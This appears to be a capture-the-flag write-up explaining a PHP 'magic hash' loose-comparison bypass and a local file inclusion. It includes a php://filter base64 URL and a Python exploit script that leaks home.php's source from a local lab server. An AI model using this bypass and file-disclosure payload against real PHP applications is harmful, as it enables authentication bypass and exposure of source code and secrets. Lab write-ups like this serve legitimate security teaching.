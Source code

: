 # Not a collision

## Overview
To get the flag we can use magic hashes (https://github.com/spaze/hashes). In fact, two strings whose hash starts with `0e...` followed by random numbers, if compared with a double equals `==`, will pass the if statement.
```php
if ("0e67523434" == "0e87923444"){
    echo "collision";
}
```
This happens because the double equals `==` forces the two strings to be treated as numbers in scientific notation, and both are $0*10^{n}$, that is, $0$.

We also see that a variable `$home` is inserted in `include` which can be `home.php` by default or any resource that we insert in page. This is clearly a file inclusion, more precisely to get the flag we need a file disclosure, this is because the flag isn't printed to us, but we can find it in the source code. Thanks to the php wrappers (https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/Wrappers.md) we can get the flag:
```
http://127.0.0.1:6002/?page=php://filter/convert.base64-encode/resource=home.php
```

## Exploit
```py
from requests import post
from base64 import b64decode
from bs4 import BeautifulSoup

url = "http://127.0.0.1:6002/"

# you can find all collisions here: https://github.com/spaze/hashes

data = {
    "input1": "0e215962017",
    "collision": "click"
}

resp = post(url + "?page=php://filter/convert.base64-encode/resource=home.php", data=data)
source_b64 = BeautifulSoup(resp.text, "html.parser").find_all("p")[-1].get_text().strip()

source = b64decode(source_b64).decode()
print(source)
```